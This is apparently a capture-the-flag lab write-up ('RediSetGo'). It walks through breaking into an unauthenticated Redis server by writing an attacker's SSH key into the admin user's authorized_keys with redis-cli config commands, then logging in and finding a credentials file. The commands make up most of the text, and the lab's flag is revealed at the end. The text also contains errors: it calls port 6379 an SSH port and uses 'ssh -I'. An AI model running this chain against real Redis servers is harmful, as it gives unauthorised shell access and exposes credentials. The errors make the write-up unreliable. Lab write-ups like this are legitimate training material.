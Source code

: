 ###### There are no images for this guide
# RediSetGo
#### Web Application PT, SSH
## Challenge Description:
You started working in web application development for 'SupplyBear'.<br>
When attempting to write your first plugin to their system, you found out that you don't have the central database's credentials.<br>
When talking with the lead developer, he told you that they have lost the 'admin' user credentials a while ago and could not recover access without potential data loss.<br>

Your goals<br>
☛  For the investigation of the database server with the hostname 'rdb-server', you were provided with a machine in the same local network.<br>
☛  Investigate potential entry points on the central database on 'rdb-server'.<br>
☛  Exploit a vulnerability to gain shell acess to the 'admin' user on the server.<br>
☛  Retrieve the lost password located in db-creds.conf<br>


## Process:
To start this off, let's run 'nmap -sV -sC -p- -vv rdb-server' in order to find the IP of our machine.<br>
We can see 2 ports open: 22 and 6379. Looking into this port, we can see that 6379 is an SSH port<br>

Let's create a new dir named 'keys' and continue from there.<br>
We will use the 'ssh-keygen -f postman' command to create a new ssh key that we will need to inject into the target in order to gain admin access. No need to enter a passphrase.<br>
'vi postman.pub' and add 2 lines above the key, and 2 lines below the key.<br>

'cat postman.pub | redis-cli -h 172.17.0.9 -x set crackit'

redis-cli -h 172.17.0.9 config set dir /home/admin/.ssh/

redis-cli -h 172.17.0.9 config set dbfilename "authorized_keys"

#### redis-cli -h 172.17.0.128 config set dbfilename "backup.db" not needed <br>

redis-cli -h 172.17.0.9 save

ssh -I postman admin@172.17.0.9

Now we have access to the server with admin privileges.<br>
Let's find the conf file using 
#### 'find / -iname "db-creds.conf" 2>/dev/null'
We will find the file in '/etc/systemd/system/db-creds.conf'

<details> 
        <summary>The Hidden Flag</summary> 
          16b4de7bff8d1b01681bdf28b812201e
    </details><br>
